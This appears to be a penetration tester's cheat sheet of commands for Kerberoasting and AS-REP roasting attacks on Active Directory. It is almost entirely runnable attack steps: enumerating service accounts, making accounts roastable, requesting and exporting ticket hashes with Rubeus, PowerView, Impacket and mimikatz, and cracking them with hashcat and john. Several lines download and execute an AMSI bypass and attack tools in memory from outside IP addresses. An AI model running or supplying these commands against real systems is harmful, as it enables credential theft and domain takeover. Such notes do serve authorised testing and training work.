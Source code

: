 ### Kerberoasting:
    - cracking service account hash
    - Checking for users w/ SPNs:
        - **Check BloodHound** 
        - GetUserSPNs.py megacorp.local/snovvcrash:'Passw0rd!' -dc-ip 127.0.0.1 -request -outputfile tgsrep.in
        - Native:   setspn -T <domain> -Q */*
    - Making a user Kerberoastable (if you have privs):
         - Set-DomainObject -Identity <username> -Set @{serviceprincipalname='just/whateverUn1Que'} -verbose
    - Getting hashes:
        - (new-object system.net.webclient).downloadstring('http://192.168.45.158/amsi.txt') | IEX
        - PowerView:
            - iex (new-object Net.WebClient).DownloadString("http://192.168.45.158/Invoke-Kerberoast.ps1")
            - Invoke-Kerberoast -OutputFormat Hashcat | fl
            - Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
        - Rubeus:
            - in-memory:  $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.210/Rubeus.exe'); $assem = [System.Reflection.Assembly]::Load($data); [Rubeus.Program]::Main("<args>".Split())
            - .\Rubeus.exe kerberoast /format:hashcat /nowrap [/usetgtdeleg] [/user:svc_mssql] [/domain:corp2.com]
            - .\Rubeus.exe kerberoast /user:svc_mssql /outfile:hashes.kerberoast      //Specific user
            - .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap      //Get of admins
            - Other options:  /aes; /tgtdeleg; /creduser:ignite.local\Administrator /credpassword:P@ss123
        - Native:
            - Add-Type -AssemblyName System.IdentityModel
            - New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/dc-mantvydas.offense.local"
            - mimikatz # kerberos::list /export
            - kirbi2john.py sqldev.kirbi
            - Transform john to hashcat:  sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
    - Cracking:
        - hashcat -m 13100 --force -a 0 hashes.kerberoast /usr/share/wordlists/rockyou.txt
        - john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt hashes.kerberoast

### AS-REP Roasting:
    - Check for users:
        - PowerView:
            - Get-DomainUser -PreauthNotRequired -verbose
        - Check and Exploit from Kali:
            - GetNPUsers.py corp2.com/Administrator:lab -request -format hashcat -outputfile hashes.asreproast
            - sudo echo "192.168.235.80 corp2.com" >> /etc/hosts
    - Exploit:
        - rubeus.exe asreproast /spn:ldap/dc1.ignite.local/ignite.local [/format:hashcat] [/outfile:out.txt]
        - Or:  Get-ASREPHash -UserName TargetUser
    - Enable (no preauth) for users you have privs/GenericAll over:
        - Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
    - Crack:
        - john --wordlist=passwords_kerb.txt hashes.asreproast
        - hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt